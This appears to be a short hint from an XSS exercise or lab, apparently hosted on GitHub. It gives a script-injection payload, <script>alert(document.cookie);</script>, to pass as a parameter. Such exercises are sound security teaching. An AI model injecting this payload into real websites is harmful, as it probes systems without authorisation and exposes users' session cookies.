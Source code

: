 # Hint 4
Use the following script as the parameter
 ```javascript
<script>alert(document.cookie);</script>
 ```
